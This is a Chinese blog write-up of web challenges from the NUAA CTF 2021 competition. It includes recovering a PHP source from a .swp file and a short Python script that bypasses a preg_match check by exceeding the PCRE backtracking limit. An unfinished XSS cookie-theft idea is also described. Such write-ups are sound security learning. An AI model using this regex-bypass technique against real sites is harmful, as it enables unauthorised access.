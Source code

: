 ```yaml
---
title: NUAA CTF 2021 Web Write up
date: 2021-04-10 20:23:04
categories:	CTF
tags: 
  - CTF
  - WP 
description: 第一场正式的的CTF比赛WP
sticky:
keywords:
cover:
copyright:
copyright_author:
copyright_author_href:
copyright_url:
copyright_info:
---
```


# NUAA CTF 2021 Web Write up

## 签到题
打开环境，查看网页源代码，即发现flag
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210328195900666.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_SGFpcnNoZWVw,size_20,color_FFFFFF,t_70)


## DDoSme
打开环境，提示Do you kNow .swp file? 直接百度，查到
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210328204502583.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_SGFpcnNoZWVw,size_64,color_FFFFFF,t_70)

于是知道会要用到Linux
用dirsearch扫一下网站目录，发现了.index.php.swp文件

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210328204551203.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_SGFpcnNoZWVw,size_64,color_FFFFFF,t_70)


地址栏URL后面输入`.index.php.swp`下载swp文件
这个时候用notepad打开发现全是乱码，百度发现
![](https://img-blog.csdnimg.cn/20210328200950634.png)

于是复制到Linux虚拟机中，

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210328204652570.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_SGFpcnNoZWVw,size_64,color_FFFFFF,t_70)


再
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210328201104698.png)

得到还原后的PHP文件

```php
<?php
function areyouok($greeting){
    return preg_match('/Baby.*PHP/is',$greeting);
}

$greeting=@$_POST['greeting'];
if(!is_array($greeting)){
    if(!areyouok($greeting)){
        if(strpos($greeting,'Baby PHP')!==false){
            echo 'flag{xxxxxx}';
        }else{
            echo 'Do you kNow .swp file?';
        }
    }else{
        echo 'Do you know PHP?';
    }
}
?>

```
emmm…PHP学的还不多，看不懂，果断度娘，发现……竟然跟18年i春秋圣诞欢乐赛题一样…原理就是pcre具有回溯上限，当回溯超过上限时返回 false，从而绕过正则匹配函数(虽然俺不懂，但俺会CV大法)
链接:[2018年i春秋圣诞欢乐赛Web WP](https://www.jianshu.com/p/68f3c8e5d2b4)
然后通过Python写个脚本：

```python
import requests
from io import BytesIO

files = {
  'greeting':('Baby PHP' + 'a' * 1000000)
}

res = requests.post('http://server.cooook.icu:10003/index.php', data=files, allow_redirects=False)
print(res.text)
```
运行之后，成功拿到flag

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210328204722851.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_SGFpcnNoZWVw,size_32,color_FFFFFF,t_70)


## easy_xss
看题目知道是xss跨站脚本漏洞攻击
题目要求是：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210328201752270.png)
扫了下网站
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210328201935905.png)
看到了upload.php，试了一下emmm确实打不开
所以要登入管理员界面，xss攻击，想到了窃取cookie绕过登录，
而且正好点开Read sample post出现了管理员发表的文章

然后..就卡住了(っ °Д °)っ
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210328204809754.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_SGFpcnNoZWVw,size_64,color_FFFFFF,t_70)


## base64

![在这里插入图片描述](https://img-blog.csdnimg.cn/2021032821021262.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_SGFpcnNoZWVw,size_32,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210328210244539.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_SGFpcnNoZWVw,size_48,color_FFFFFF,t_70)
emmm……PHP，Base64，这俩合一起....看了度娘都看不懂...毫无思路


比完赛，感觉 我是废物（；´д｀）ゞ
